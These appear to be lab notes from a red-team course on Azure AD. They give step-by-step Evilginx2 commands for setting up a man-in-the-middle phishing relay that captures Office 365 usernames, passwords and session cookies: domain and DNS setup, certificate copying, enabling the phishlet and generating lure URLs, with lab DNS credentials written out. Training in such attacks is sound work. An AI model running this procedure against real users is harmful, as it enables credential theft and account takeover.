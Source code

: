 # Initial Access - Phishing - Evilginx2

- We can use Evilginx2 (https://github.com/kgretzky/evilginx2) for phishing attacks.

- Evilginx acts as a relay/man-in-the-middle between the legit web page and the target user. The user always interacts with the legit website and Evilginx captures usernames, passwords and authentication cookies.

- It uses phishlets that are configuration files for specific target domains.
These are YAML files that specify conditions like hosts, filters, structure
of authentication cookies and credentials.

#### Starting Evilginx2

- Evilginx2 is already setup on the student VMs. We can use the following commands.
- Start evilginx2:
```
evilginx2 -p C:\AzAD\Tools\evilginx2\phishlets
```
- Configure the domain:
```
config domain studentx.corp
```
- Set the IP for the evilginx server:
```
config ip 172.16.x.x
```
- Use the template for Office 365:
```
phishlets hostname o365 login.studentx.corp
```
- Verify the DNS entries:
```
phishlets get-hosts o365
```

#### Setup DNS
You can access DNS Server by browsing to ```http://172.16.2.50:5380/``` from your student VM and using the following details:
```
username: admin
password: admin@123
```

- Now goto ```Zones > Add Zone``` and create zone ```Student213.corp```
- Edit Name Server and Statement of Authority and set values to - 172.16.2.50
- Now add two A Records
  - ```login.login``` pointed to local IPv4
  - ```www.login``` pointed to local IPv4

**MAKE SURE TO KILL XAMPP 365 STEALER!**

#### next
- Copy the certificate and private key - o365.crt and o365.key from:
```C:\studentx\.evilginx\crt``` to ```C:\studentx\.evilginx\crt\login.studentx.corp```
```
Copy-Item C:\Users\studentuser213\.evilginx\crt\ca.crt C:\Users\studentuser213\.evilginx\crt\login.student213.corp\o365.crt
Copy-Item C:\Users\studentuser213\.evilginx\crt\private.key C:\Users\studentuser213\.evilginx\crt\login.student213.corp\o365.key
```


- Enable phishlets:
```phishlets enable o365```
-  Create the phishing URL (tied to an ID):
```lures create o365```
- Get the phishing URL
```lures get-url <ID>```
- Share the URL with the victim. (For the lab, send an email using your personal email).

